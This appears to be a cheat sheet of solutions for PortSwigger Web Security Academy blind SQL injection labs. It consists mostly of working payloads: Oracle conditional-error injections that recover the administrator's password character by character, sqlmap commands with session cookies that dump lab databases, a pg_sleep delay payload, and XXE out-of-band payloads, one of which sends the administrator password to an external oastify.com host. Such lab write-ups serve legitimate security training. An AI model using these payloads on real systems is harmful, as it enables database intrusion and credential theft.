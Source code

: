 
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'    ->  In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true
<img width="748" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/ffabc5e3-e93d-46d2-96d2-529fa64735e3">

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'   -> condition is true, hence error should be received and it confirms administrator user exist in users table.
<img width="743" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/1cb7b4fc-e1e8-4a2a-aed0-f81d187793c0">

next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||' and keep increasing untill you get the condition true and page loads like below.
<img width="742" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/eadcceaf-6724-4aef-a534-1f0e538f75a5">


After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
In the Positions tab of Burp Intruder, change the value of the cookie to: 
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'  --> if you put n instead of a which is true, the first letter of password, page will give error like below.

<img width="742" alt="image" src="https://github.com/katvik001/PortSwigger-Academy-CheatSheets/assets/21978067/c95b03a3-e247-4345-b216-52d4956f18b7">

**Blind SQL injection with conditional errors**
sqlmap -u 'https://0af800e604055c7d819e399800bf00c6.web-security-academy.net/filter?category=Lifestyle' --cookie='TrackingId=nDU4jKT9hjQE9mr5; session=PFERWY0rKpJ7bPszXsQKXVAnzmZyBLWq' --level 2 --dbms=postgresql --dump --threads=5
**Blind SQL injection with conditional responses**
sqlmap -u 'https://0af8009d04c75cb982ec1fad00b000f3.web-security-academy.net/' --cookie='TrackingId=vXlhdCuFfEh7btYf; session=vOVSLroAEJ568bYWzcLsRf7OY9fKVohP' --level 2 --dbms=oracle --dump --threads=5


** Blind SQL injection with time delays**
 Cookie: TrackingId=x' || pg_sleep(10)--; session=

**Blind SQL injection with out-of-band interaction**
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//gey1m5rfwgrrziuc0kzjw79rbih95zto.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

**Blind SQL injection with out-of-band data exfiltration**
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.t1ve9iesjte4mvhpnxmwjkw4yv4nseg3.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

**Blind SQL injection with time delays and information retrieval**

sqlmap -u https://0a90007c04bab92587b8e428007000cc.web-security-academy.net/filter?category=Pets --cookie='TrackingId=UHZLQBAIdk2AG3B6; session=y6Ahq7PyRbMTRY1SPNrk9rMCNMpPXpUI' --level 2 --dbms=postgresql --dump --threads=5
